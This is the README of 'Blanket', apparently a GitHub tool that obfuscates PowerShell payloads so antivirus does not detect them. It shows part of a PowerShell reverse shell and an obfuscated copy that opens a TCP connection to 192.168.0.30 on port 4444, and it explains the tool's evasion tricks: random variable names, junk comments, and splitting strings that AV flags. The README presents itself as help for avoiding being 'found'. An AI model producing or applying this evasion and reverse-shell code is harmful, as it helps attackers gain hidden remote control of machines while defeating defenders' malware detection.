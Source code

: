 # Blanket

````
▀█████████▄   ▄█          ▄████████ ███▄▄▄▄      ▄█   ▄█▄    ▄████████     ███     
  ███    ███ ███         ███    ███ ███▀▀▀██▄   ███ ▄███▀   ███    ███ ▀█████████▄ 
  ███    ███ ███         ███    ███ ███   ███   ███▐██▀     ███    █▀     ▀███▀▀██ 
 ▄███▄▄▄██▀  ███         ███    ███ ███   ███  ▄█████▀     ▄███▄▄▄         ███   ▀ 
▀▀███▀▀▀██▄  ███       ▀███████████ ███   ███ ▀▀█████▄    ▀▀███▀▀▀         ███     
  ███    ██▄ ███         ███    ███ ███   ███   ███▐██▄     ███    █▄      ███     
  ███    ███ ███▌    ▄   ███    ███ ███   ███   ███ ▀███▄   ███    ███     ███     
▄█████████▀  █████▄▄██   ███    █▀   ▀█   █▀    ███   ▀█▀   ██████████    ▄████▀   
             ▀                                  ▀                                  
````

If you are worried about being found perhaps try taking cover under a blanket.

Pure Python PowerShell Obfuscator 
****
##Usage

`git clone https://github.com/warren2i/Blanket`

`cd Blanket`



`usage: Blanket.py [-h] -i IP -p PORT [-o OUTFILE] [-s SCRIPT] [-v VARSIZE]
`
****
##FROM THIS

![alt text](https://github.com/warren2i/Blanket/blob/master/screenshots/virustotalflag.png?raw=true)
```
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");

```

##TO THIS

![alt text](https://github.com/warren2i/Blanket/blob/master/screenshots/virustotalencoded.png?raw=true)
```
<# Rick  HOLY CRAP  MORTY RUN     they take off  running in complete and total fear as the monster chases them   #>
$qiWhuJGxwI = new-object $jIXFgQanbD$ARXnYkEGqw$wSZMLtSCNA$hWVEIzFKHR$lDnUhrDSGw$aRBYRkGFUw$kXBLnxbVkq('192.168.0.30', 4444);
<# Jerry  Well  now you can build baskets and watch Paul Newman movies on VHS and mentally scar the Boy Scouts every Christmas   #>
if($qiWhuJGxwI -eq $rAQVEYeUkX){exit 1}
<# Jessica  You re Morty  right   #>
$GMRilHjFFt = $qiWhuJGxwI.GetStream();
<# Announcer  The glarp zone is for flarping and unglarping only   #>
$wdosspwpUlDUCxjSMOa = new-object $jFOPXASzCc$SPJkhQzvSx$HBxMZKRsex$NQbpEvtWIi$WBpIsOyusc($GMRilHjFFt);
<# Rick  Morty  I had to    I had to do it  I had�   I had to�   I had to make a bomb  Morty  I had to create a bomb   #>
$mpExOgyAGZ = new-object $ccPCTjvCMR$QGNWUyjRyA$GZSdvCoHYt[] 1024;
<# Morty  Ohhhhh   Rick pushes over a giant capsule  with an alien fetus over  smashing some Gromflomites  to slow them down   #>
$CABnIxyBoA = new-object $GUxCXYklTR$jmgKZRfvsC$dbYEHnzBop$PCZxvNmpro$esduLAahPr$vVAAgyplvP$xNZyQeUbTR;
<# Principal Vagina  I done been notifying you  Have you not been getting the messages I ve been leaving with Morty s grandfather   #>
```

##How Does Blanket Work?

####randomvar(length)

Creates a random string of length (length), this is used to replace variables

####addcomments()

Insert a comment on each line, comments are generated from text file defined with argument -c --comments

####breakdatatype(string, rando)

Locates strings found by av and breaks into random multi line variables

#####Before Blanket
```
$pinfo = New-Object System.Diagnostics.ProcessStartInfo
```
#####After Blanket
```
$WjUHPtSUMs = New-Object $FxWBgCj$qzCeaqa$qjGBOBx$KRKWjyD$CRLlqAV$PspQekI$XkPguzs$FcQZxty$LXMGRypStartInfo 